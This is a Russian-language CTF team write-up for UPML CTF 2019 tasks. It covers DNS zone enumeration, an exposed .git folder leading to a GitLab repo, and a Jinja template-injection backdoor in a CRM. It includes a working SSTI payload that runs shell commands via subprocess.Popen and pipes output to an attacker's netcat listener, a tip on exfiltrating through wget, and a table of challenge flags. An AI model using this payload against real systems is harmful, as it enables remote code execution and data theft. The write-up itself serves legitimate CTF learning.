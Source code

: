 # UPML CTF 2019 (23 февраля)

Этот репозиторий содержит райтапы, подготовленные нашей командой.

## Part One
**Здесь разобраны:** Послание сисадмина, DNS-сервера, Исходные коды, Сервер исходных
кодов, Проникновение, Hidden backdoor [Дорешивание]

Для получения DNS-записей домена устанавливаем и используем `fierce`:
```
$ pip install fierce
$ fierce --domain bankbank.exposed
```
В итоге на выходе получаем следующее:
```
NS: ns1.bankbank.exposed. ns2.bankbank.exposed.
SOA: ns1.bankbank.exposed. (95.179.139.209)
Zone: success
{<DNS name @>: '@ 2560 IN SOA ns1 hostmaster 1550888583 600 300 1048576 2560\n'
'@ 1200 IN NS ns1\n'
'@ 1200 IN NS ns2\n'
'@ 300 IN A 95.179.139.209\n'
'@ 300 IN MX 10 mx.yandex.net.\n'
'@ 300 IN TXT "yandex-verification: 70ddd42d9c7067ef"\n'
'@ 300 IN TXT "v=spf1 redirect=_spf.yandex.net~all"\n'
'@ 300 IN TXT "uctf_digg3r_3xp3rt_or_n0t"',
<DNS name mail._domainkey>: 'mail._domainkey 300 IN TXT
"v=DKIM1; k=rsa; t=s; '
'p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDUwGoNveBrd82bnyKs9Nk8z1p7sqiMVfRNhZCQWAq79a0VIibyBft4Pz7SAqFmsNvs" '
'"7TNgZ6kCfYp88ZPFbkntUP8YS9rvuPSMPZTZhQk97vZUfnKklRFZqIFk6UfgzxzwuEx1A9PNUXwUdNXkzpDVKY422B5Ioxqun0jGzLR9MwIDAQAB"',
<DNS name botapi>: 'botapi 300 IN A 95.179.139.209',
<DNS name earn>: 'earn 300 IN A 95.179.139.209',
<DNS name jobs>: 'jobs 300 IN A 95.179.139.209',
<DNS name litsec>: 'litsec 300 IN A 95.179.139.209',
<DNS name ns1>: 'ns1 300 IN A 95.179.139.209',
<DNS name ns2>: 'ns2 300 IN A 95.179.139.209',
<DNS name qr>: 'qr 300 IN A 95.179.139.209',
<DNS name random>: 'random 300 IN A 95.179.139.209',
<DNS name store>: 'store 300 IN A 95.179.139.209',
<DNS name totallysecret-64354262612>: 'totallysecret-64354262612 300 IN TXT ''"uctf_r341_digg3r_3xp3rt"',
<DNS name www>: 'www 300 IN A 95.179.139.209'}
```
Так мы получаем сразу два флажка - для тасков "Послание сисадмина" и "DNS-сервера". 

Помимо найденных флагов обнаруживаем поддомен `botapi.bankbank.exposed`, который, как несложно догадаться, связан с ботом Telegram. А именно – здесь открыта папка `.git` (в чем несложно убедиться, получив 403 вместо типичного 404). В папке репозитория выходим на файл `config` и, таким образом, выходим на след [репозитория](https://gitlab.com/bank-it-dept/botapidemo) на GitLab. Здесь получаем еще два флага (для тасков "Исходные коды" и "Сервер исходных кодов") – один находится в файле `secret.txt` в ветке `testing` репозитория (зашифрованный шифром Цезаря), второй – в описании группы https://gitlab.com/bank-it-dept. 

Наконец, чуть позже в этой же группе создают репозиторий CRM (с исходниками `crm.bankbank.tech`), в которых можно найти найти много чего интересно (например, токен от Telegram-бота и заявленный авторами бэкдор). Во-первых, в шаблоне `templates/crm.html` находим еще один флаг. Во-вторых, в обработчике для URI `/crm/` видим бэкдор, уязвимый перед Template Injection, благодаря чему мы может добиться исполнение произвольного кода (правда, для этого нужно залогиниться в CRM, что, впрочем, несложно - в исходниках находим захардкоженную пару логин-пароль и токен бота, через который можно пересылать себе коды двухфакторной авторизации), результат выполнения которого можно получить самыми разными способами. Например, в случае наличия выделенного сервера запускаем `netcat` в режиме прослушивания:
```
$ nc -lvp 1337
```
Теперь обращаемся по URL
`https://crm.bankbank.tech/crm/?fdata={{''.__class__.__mro__[1].__subclasses__()[259]('<your_command> | nc <your_ip> 1337', shell=True)}}`. 
Индекс 259 подобран так, чтобы классом, от которого вызывается конструктор, был `subprocess.Popen` (этот индекс по каким-то причинам может меняться время от времени, однако подобрать его самостоятельно не составит большого труда). Таким образом, можно прочитать файл `flag.txt` (о котором можно догадаться, узнать из `.gitignore` или с помощью `ls`) и получить заветный флажок. Если же выделенного сервера нет, то получить содержимое файла можно, например, с помощью первого попавшегося онлайн-сниффера, используя при этом `wget` (содержимое можно передавать как GET-параметр запроса). 

Краткая сводка:

| Ветка | Название таска | Категория | Флаг |
| --- | --- | --- | ---- |
| 0 | Послание сисадмина (admin) | Network 100 | `uctf_digg3r_3xp3rt_or_n0t` |
| 0 | Hidden backdoor (backdoor) | Web 250 | `uctf_we_should_go_deeper` |
| 0 | CEO (ceo) | Recon 150 | `uctf_i_kn0w_the_staff` |
| 0 | Исходные коды (code) | Web 100 | `uctf_very_common_git_task` |
| 0 | Сервер исходных кодов (codeserver) | Misc 100 | `uctf_remote_origin_located` |
| 0 | Обман системы (corpflag) | Telegram 400 | `Not now` |
| 0 | DNS сервера (dns) | Network 200 | `uctf_r341_digg3r_3xp3rt` |
| 0 | Ограбление 1.0 (grab1) | Telegram 100 | `uctf_o_v1_hacker` |
| 0 | Ограбление 2.0 (grab2) | Telegram 200 | `Not now` |
| 0 | Глубина (inbox) | Recon 200 | `uctf_instanda` |
| 0 | Staff only (insider) | Recon 500 | `uctfitwasfakecryptotask0` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Проникновение (naive) | Joy 300 | `uctf_hack3d_supp0rt` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Скайп (skype) | Recon 50 | `Not now` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Welcome aboard (start) | Misc 10 | `uctfgoahead` |
| 0 | Hidden | Hidden | `Not now` |
| 0 | Правила (tos) | Misc 150 | `uctfbureaucratslose` |
| 0 | Ожидание (wait) | Web 100 | `uctf_kaef_mode_on` |
| 0 | Hidden | Hidden | `Not now` |

Как обычно, оптимальность решений не гарантируем. :)

